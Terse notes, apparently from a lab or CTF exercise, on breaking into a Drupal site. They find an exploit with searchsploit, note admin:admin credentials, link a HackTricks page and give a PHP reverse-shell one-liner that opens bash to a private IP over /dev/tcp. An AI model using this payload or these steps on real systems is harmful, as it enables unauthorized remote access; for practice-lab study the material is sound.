 -  searchsploit drupal -  35150\.php
-  run it against url
admin:admin

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal](#https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal)


-  followed steps to get reverse shell

PHP one liner
\<?php
exec\("/bin/bash \-c 'bash \-i \>\& /dev/tcp/192\.168\.0\.92/1337 0\>\&1'"\);

